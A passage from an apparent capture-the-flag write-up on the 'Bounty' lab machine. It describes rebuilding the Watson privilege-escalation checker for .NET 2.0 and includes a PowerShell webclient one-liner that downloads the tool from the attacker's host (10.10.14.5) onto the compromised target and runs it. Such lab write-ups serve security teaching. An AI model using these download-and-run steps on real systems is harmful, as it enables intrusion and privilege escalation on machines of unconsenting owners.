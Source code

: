 The TL;DR is that you have to build the exe to match the version of .NET
installed on target.

From Bounty:



    PS C:\windows\microsoft.net\framework\v2.0.50727> \windows\microsoft.net\framework\v2.0.50727\msbuild -version
    Microsoft (R) Build Engine Version 2.0.50727.4927
    [Microsoft .NET Framework, Version 2.0.50727.4927]
    Copyright (C) Microsoft Corporation 2005. All rights reserved.

    2.0.50727.4927



So back in Visual Studio, "Project" --\> "Watson Properties..." will
launch a window where I can set the "Target Framework":

![](/img/1540586719230.png)

When I had originally written this post, this is where things failed.
Watson wouldn't compile for .NET Framework 2.0:

![](/img/1540586764022.png)

But, thanks to super quick work from Rasta Mouse and Mark-S, they
updated it this morning, and it works now.

So build again with .NET Framework 2.0, copy it over to Bounty, and run
it:



    PS C:\users\merlin\appdata\local\temp> (new-object net.webclient).downloadfile('http://10.10.14.5/Watson.exe', '\users\merlin\appdata\local\temp\watson.exe')
    PS C:\users\merlin\appdata\local\temp> .\watson.exe
      __    __      _
     / / /\ \ \__ _| |_ ___  ___  _ __
     \ \/  \/ / _` | __/ __|/ _ \| '_ \
      \  /\  / (_| | |_\__ \ (_) | | | |
       \/  \/ \__,_|\__|___/\___/|_| |_|

